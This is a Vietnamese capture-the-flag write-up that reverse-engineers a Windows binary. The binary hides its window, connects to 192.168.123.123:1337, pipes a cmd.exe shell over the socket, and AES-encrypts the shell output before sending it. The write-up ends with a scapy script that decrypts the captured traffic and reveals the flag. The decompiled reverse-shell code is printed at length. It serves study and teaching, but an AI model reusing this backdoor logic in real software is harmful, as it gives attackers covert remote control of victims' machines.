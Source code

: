 # SECRET 
- Khi mở file binary bằng IDA và phân tích hàm `main`:
```C 
int __cdecl main(int argc, const char **argv, const char **envp)
{
  HWND ConsoleWindow; // eax
  SOCKET v4; // eax
  struct WSAData WSAData; // [esp+10h] [ebp-198h] BYREF

  ConsoleWindow = GetConsoleWindow();
  ShowWindow(ConsoleWindow, 0);
  hMutex = CreateMutexW(0, 0, L"9_5_diem");
  if ( !hMutex || WSAStartup(0x202u, &WSAData) )
    return 1;
  *(_DWORD *)&name.sa_family = 0;
  *(_DWORD *)&name.sa_data[2] = 0;
  *(_DWORD *)&name.sa_data[6] = 0;
  *(_DWORD *)&name.sa_data[10] = 0;
  name.sa_family = 2;
  *(_WORD *)name.sa_data = htons(1337u);
  *(_DWORD *)&name.sa_data[2] = inet_addr("192.168.123.123");
  v4 = socket(2, 1, 6);
  s = v4;
  if ( v4 == -1 )
  {
LABEL_4:
    WSACleanup();
    return 1;
  }
  if ( connect(v4, &name, 16) == -1 )
  {
    closesocket(s);
    goto LABEL_4;
  }
  sub_8E1983();
  ReleaseMutex(hMutex);
  return 0;
}
```
- Trước tiên chương trình tạo `MUTEX OBJECT` nên chúng ta có thể suy đoán rằng bài sẽ có chỗ sử dụng `shared resource` giữa các thread (tức là sẽ có thêm những thread mới được tạo ra)
- Tiếp đến chúng ta có thể thấy rằng chương trình đã kết nối socket đến địa chỉ `192.168.123.123` và  `PORT 1337` : 
```C 
  ..........
  *(_WORD *)name.sa_data = htons(1337u);
  *(_DWORD *)&name.sa_data[2] = inet_addr("192.168.123.123");
  ............
```
- Như vậy đã có kết nối socket thì chắc chắn sẽ có data chứa flag được truyền đi nên chúng ta sẽ tiếp tục trace vào hàm `sub_8E1983` để xem tác giả đã sử dụng socket để gửi đi những gì :
```C
char sub_8E1983()
{
  struct _STARTUPINFOW StartupInfo; // [esp+10h] [ebp-78h] BYREF
  struct _PROCESS_INFORMATION ProcessInformation; // [esp+58h] [ebp-30h] BYREF
  struct _SECURITY_ATTRIBUTES PipeAttributes; // [esp+68h] [ebp-20h] BYREF
  int CommandLine[4]; // [esp+74h] [ebp-14h] BYREF

  PipeAttributes.nLength = 12;
  PipeAttributes.bInheritHandle = 1;
  PipeAttributes.lpSecurityDescriptor = 0;
  if ( !CreatePipe(&hObject, &hWritePipe, &PipeAttributes, 0) )
    return 0;
  if ( !SetHandleInformation(hObject, 1u, 0) )
    return 0;
  if ( !CreatePipe(&hReadPipe, &dword_8F6330, &PipeAttributes, 0) )
    return 0;
  if ( !SetHandleInformation(dword_8F6330, 1u, 0) )
    return 0;
  CommandLine[0] = *(_DWORD *)L"cmd.exe";
  CommandLine[1] = *(_DWORD *)L"d.exe";
  CommandLine[2] = *(_DWORD *)L"exe";
  CommandLine[3] = *(_DWORD *)L"e";
  memset(&ProcessInformation, 0, sizeof(ProcessInformation));
  memset(&StartupInfo, 0, sizeof(StartupInfo));
  StartupInfo.dwFlags |= 0x101u;
  StartupInfo.hStdError = hWritePipe;
  StartupInfo.hStdOutput = hWritePipe;
  StartupInfo.hStdInput = hReadPipe;
  StartupInfo.cb = 68;
  if ( !CreateProcessW(0, (LPWSTR)CommandLine, 0, 0, 1, 0x8000000u, 0, 0, &StartupInfo, &ProcessInformation) )
    return 0;
  CreateThread(0, 0, StartAddress, 0, 0, 0);
  CreateThread(0, 0, sub_8E18B3, 0, 0, 0);
  WaitForSingleObject(ProcessInformation.hProcess, 0xFFFFFFFF);
  CloseHandle(ProcessInformation.hProcess);
  CloseHandle(ProcessInformation.hThread);
  return 1;
}
```
- Ở hàm `sub_8E1983` tác giả đã tạo một `pipe` và sau đó tạo một `PROCESS` con để sử dụng `pipe` này (`CreateProcessW`) 
- Process con sẽ chạy commandline bật cmd.exe và chạy d.exe , exe, ....
- Mục tiêu cần trace cuối cùng ở đây là hai hàm `StartAddress` và `sub_8E18B3` :

```C 
  CreateThread(0, 0, StartAddress, 0, 0, 0);
  CreateThread(0, 0, sub_8E18B3, 0, 0, 0);
```

## Trước tiên là function `StartAddress`: 
```C
int __stdcall StartAddress()
{
  void *reader; // ebx
  size_t v1; // ebx
  size_t v2; // esi
  int result; // eax
  const void *v4; // [esp-8h] [ebp-78h]
  DWORD *buf; // [esp+10h] [ebp-60h]
  void *i; // [esp+14h] [ebp-5Ch]
  _DWORD v7[10]; // [esp+18h] [ebp-58h] BYREF
  char v8[40]; // [esp+40h] [ebp-30h] BYREF
  DWORD NumberOfBytesRead; // [esp+68h] [ebp-8h] BYREF

  reader = sub_8E1BC5(0xFFFFu);
  for ( i = reader; ; reader = i )
  {
    memset(reader, 0, 0xFFFFu);
    result = ReadFile(hObject, reader, 0xFFFFu, &NumberOfBytesRead, 0);
    if ( !(_BYTE)result || !NumberOfBytesRead )
      break;
    qmemcpy(v7, sub_8E14F5(NumberOfBytesRead, reader, v8), sizeof(v7));
    v1 = v7[8];
    v2 = v7[8] + 37;
    buf = (DWORD *)sub_8E1BC5(v7[8] + 37);
	..............
```
- Có rất nhiều hàm nên mình sẽ chỉ phân tích một số hàm quan trọng .
- Đầu tiên chương trình sẽ đọc `StdOut` của `pipe` vừa tạo lúc trước , hiểu đơn giản là màn hình console của process được tạo ra trước đó hiện cái gì thì chương trình sẽ đọc tất : 

```C 
	........
	result = ReadFile(hObject, reader, 0xFFFFu, &NumberOfBytesRead, 0);
    if ( !(_BYTE)result || !NumberOfBytesRead )
      break;
    qmemcpy(v7, sub_8E14F5(NumberOfBytesRead, reader, v8), sizeof(v7));
    v1 = v7[8];
	.......
```
- Sau khi đọc xong, tất cả dữ liệu sẽ được đưa vào hàm `sub_8E14F5` để `encrypt` rồi coppy vào biến `v7`
- Tiếp theo biến buf sẽ nhận được những data cần gửi đi :
```C
	..........
	memset(buf, 0, v2);
    *buf = v7[0];
    buf[8] = v1;
    buf[1] = v7[1];
    v4 = (const void *)v7[9];
    buf[2] = v7[2];
    buf[3] = v7[3];
    buf[4] = v7[4];
    buf[5] = v7[5];
    buf[6] = v7[6];
    buf[7] = v7[7];
    memmove(buf + 9, v4, v1);
    if ( send(s, (const char *)buf, v1 + 36, 0) == -1 )
      return closesocket(s);
    j_j__free(buf);
    Sleep(0xAu);
  }
  return result;
}

```
### Phân tích hàm Encrypt `sub_8E14F5`: 

- Đầu vào của hàm `sub_8E14F5`  là `NumberOfBytesRead` ,`reader`, `v8`
   + `NumberOfBytesRead` : số byte
   + `reader` : số byte đã đọc được
   + `v8` : mảng rỗng 
```C
_DWORD *__usercall sub_8E14F5@<eax>(signed int number_of_byte@<edx>, const void *buf@<ecx>, _DWORD *space)
{
   .......
  i = 0;
  Time = getTime(0);
  srand(Time);
  do
  {
    *((_BYTE *)space + i + 16) = rand();
    *((_BYTE *)space + i++) = rand();
  }
  while ( i < 16 );
```
- Đoạn đầu của hàm sử dụng hàm `random` để tạo ra 32 byte đầu bất kì , sau khi trace vào các hàm bên dưới thì mình thấy có một vùng data chương trình sử dụng để trộn với `reader` và `36 byte đầu` kia và những byte đó hoàn toàn giống với `Rijndael S-box` ([S-box](https://en.wikipedia.org/wiki/Rijndael_S-box))
- Nên mình kết luận luôn đây là hàm Encrypt sử dụng `AES` với `Key` và `IV` sẽ là 32 byte random kia.
## Decrypt Data
- Đề bài còn cho chúng ta một file `pcap` để xem những data đã gửi đi nên chúng ta sẽ lấy chúng ra để decrypt 
- Key và IV sẽ là 32 byte đầu 
- Do lúc socket gửi đi , nó có gửi cả `KEY` và `IV` nên chúng ta có thể lấy được nó thông qua file `pcap`
- script mình hack được từ anh tác giả : 
```python 
from scapy.all import *
from Crypto.Cipher import AES 
from Crypto.Util.Padding import * 

pp = PcapNgReader("capture.pcapng")

for p in pp:
    if TCP in p and (p[TCP].dport == 1337 or p[TCP].sport == 1337):
        payload = raw(p[TCP].payload)
        if len(payload) < 36:
            continue
        key = payload[:16]
        iv = payload[16:32]
        size = int.from_bytes(payload[32:36], byteorder='little')
        cipher = AES.new(key, AES.MODE_CBC, iv)
        data = payload[36:36+size]
        data = cipher.decrypt(data)
        try:
            data = unpad(data,16)
        except:
            pass
        print(data.decode())
        # break
```

- FLAG : `KCSC{d0'N7_g1v3_y0u_up}`
